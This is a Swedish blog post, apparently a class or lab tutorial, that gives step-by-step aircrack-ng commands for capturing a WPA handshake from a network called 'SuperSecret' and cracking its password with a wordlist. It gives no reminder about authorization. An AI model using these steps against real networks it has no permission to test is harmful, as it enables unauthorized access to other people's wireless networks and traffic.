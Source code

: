 +++
title = "Hacka wifi nätverk"
date = "2023-10-11T14:08:14+02:00"
author = ""
authorTwitter = "" #do not include @
cover = ""
tags = ["", ""]
keywords = ["", ""]
description = ""
showFullContent = false
readingTime = false
hideComments = false
color = "" #color from the theme settings
+++

# Knäck wifi-nätverk

Ta reda på vad nätverkskortet heter med hjälp av kommandot ip i linux:

    ip a

Output:

    20: wlp0s20f3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether 4c:1d:96:22:73:84 brd ff:ff:ff:ff:ff:ff

    inet 192.168.20.236/24 brd 192.168.20.255 scope global dynamic noprefixroute wlp0s20f3
       valid_lft 86042sec preferred_lft 86042sec
    inet6 fe80::7569:fafd:9c24:6600/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever

Här printas informationen kring alla mina nätverkskort ut och
wlp0s20f3 heter mitt wifi nätverkskort. 

Nu behöver vi stoppa alla processer som använder nätverkskortet med hjälp av airmon-ng så att vi kan använda nätverkskortet för att lyssna av den trådlösa trafiken

    sudo airmon-ng check kill wlp0s20f3

Starta så att nätverkskortet läser alla signaler på wifi nätverket

    sudo airmon-ng start wlp0s20f3

Starta så att ni ser alla signaler som "flyger" genom luften

    sudo airodump-ng wlp0s20f3mon

### Se till så ni skriver **mon** på slutet

Nu borde ni hitta någon accesspunkt bland det som airodump spottar ur sig som heter "*SuperSecret*", det är det
nätverket som vi vill attackera.

Nu ska vi säga till airodump att vi vill fånga all trafik som går till just den accesspunkten, och med hjälp av den trafiken ta reda på vad lösenordet är för nätverket. Det vi behöver veta är vilken 2.4GHz kanal nätverket och vilket ssid nätverket har

    sudo airodump-ng wlp0s20f3mon --channel *KANALEN* --bssid *MAC_ADRESS* -w *SÖKVÄGEN TILL ETT DOKUMENT DÄR VI SPARARA NER INFORMATIONEN*
   

Det som vi är intresserade av är trafiken som sker när en användare med lösenord försöker koppla upp sig, nu får man vänta på att någon gör det. När det är klart kan ni avbryta avlyssningen med "Q" på tangentbordet eller CTRL+C

Nu har vi allt vi behöver för att knäcka lösenordet, nu ska datorn få jobba lite granna. Vi har lösenordet men det är  "hashat". Men om vi "hashar" en massa vanliga ord så kan vi få ut samma hash och på den vägen ta reda på lösenordet

Det gör man med hjälp av:

    sudo aircrack-ng -w *SÖKVÄG TILL FIL MED MASSA LÖSENORD SOM VI SKA TESTA* *SÖKVÄG TILL FILEN SOM VI HAR SPARAT NÄTVERKSTRAFIK I*

Här får datorn jobba en stund men förhoppningsvis blir den färdig om inte allt för lång tid. Och när vi har lösenordet till nätverket måste vi ställa in så att nätverkskortet kan fungera som vanligt med:

    sudo airmon-ng stop wlp0s20f3mon
    sudo systemctl start NetworkManager

Nu borde nätverkskortet fungera som vanligt igen
